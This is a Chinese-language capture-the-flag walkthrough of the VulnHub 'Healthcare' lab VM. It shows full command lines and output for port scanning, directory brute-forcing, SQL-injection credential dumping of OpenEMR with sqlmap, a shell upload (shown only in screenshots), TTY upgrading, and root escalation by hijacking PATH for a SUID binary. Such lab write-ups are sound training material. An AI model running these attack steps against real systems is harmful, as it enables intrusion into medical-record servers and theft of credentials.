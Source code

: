 # Healthcare 1

> https://download.vulnhub.com/healthcare/Healthcare.ova

靶场IP：`192.168.32.221`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.221                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 09:56 EDT
Nmap scan report for 192.168.32.221
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
MAC Address: 00:0C:29:0F:7D:F1 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds

```

ftp登录失败

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.221
Connected to 192.168.32.221.
220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.32.221]
Name (192.168.32.221:root): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.

```

浏览器访问80端口

![image-20220910215719818](../../.gitbook/assets/image-20220910215719818.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.221/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 –e                                                                                                                 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.221/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/10 09:58:23 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 341] [--> http://192.168.32.221/css/]
/js                   (Status: 301) [Size: 340] [--> http://192.168.32.221/js/] 
/vendor               (Status: 301) [Size: 344] [--> http://192.168.32.221/vendor/]
/favicon              (Status: 200) [Size: 1406]                                   
/robots               (Status: 200) [Size: 620]                                    
/images               (Status: 301) [Size: 344] [--> http://192.168.32.221/images/]
/index                (Status: 200) [Size: 5031]                                   
/fonts                (Status: 301) [Size: 343] [--> http://192.168.32.221/fonts/] 
/gitweb               (Status: 301) [Size: 344] [--> http://192.168.32.221/gitweb/]
/phpMyAdmin           (Status: 403) [Size: 59]                                     
/server-status        (Status: 403) [Size: 1000]                                   
/server-info          (Status: 403) [Size: 1000]                                   
/openemr              (Status: 301) [Size: 345] [--> http://192.168.32.221/openemr/]
                                                                                    
===============================================================
2022/09/10 10:03:30 Finished
===============================================================

```

访问：`/openemr/`

![image-20220910220211578](../../.gitbook/assets/image-20220910220211578.png)

其中该版本有[SQL注入漏洞](https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/)。

```
sqlmap -u http://192.168.32.221/openemr/interface/login/validateUser.php?u= -D openemr -T users --dump --batch
```

```
[10:04:34] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[10:04:34] [INFO] starting 2 processes 
[10:04:38] [INFO] cracked password 'ackbar' for user 'admin'
[10:04:47] [INFO] cracked password 'medical' for user 'medical' 
```

![image-20220910220602361](../../.gitbook/assets/image-20220910220602361.png)

使用admin登录

![image-20220910221015106](../../.gitbook/assets/image-20220910221015106.png)

在files那里添加shell

![image-20220910221458811](../../.gitbook/assets/image-20220910221458811.png)

访问config

```
http://192.168.32.221/openemr/interface/main/main_screen.php?auth=login&site=default
```

![image-20220910222421606](../../.gitbook/assets/image-20220910222421606.png)

现在，我们有了一个 revere shell，让我们在 python-onliner 的帮助下将它升级为一个完全交互式的 TTY shell，并进一步进行 post enumeration 以提升 root 权限。因此，首先我们以**medical:medica** l（通过 SQLi 枚举）身份登录，然后尝试使用 find 命令识别 SUID 启用二进制文件。

```
sh-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ su medical
su medical
Password: medical

[medical@localhost /]$ 

[medical@localhost /]$ find / -perm -u=s -type f 2> /dev/null
find / -perm -u=s -type f 2> /dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount

```

我们发现为 `/usr/bin/healthcheck` 启用了 SUID 位，我们使用 strings 命令进一步探索"healthcheck"，我们发现它通过运行"ifconfig"和"fdisk"等命令来扫描系统：

```
[medical@localhost /]$ strings /usr/bin/healthcheck
strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h

```

我们可以使用使用 PATH 变量的权限提升技术来利用系统，从**[这里](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)** 阅读以了解更多信息：

```
cd /tmp 
echo "/bin/bash" > fdisk 
chmod 777 fdisk 
export PATH="/tmp:$PATH"
/usr/bin/healthcheck 
cd /root 
ls
```

![image-20230208150005962](../../.gitbook/assets/image-20230208150005962.png)
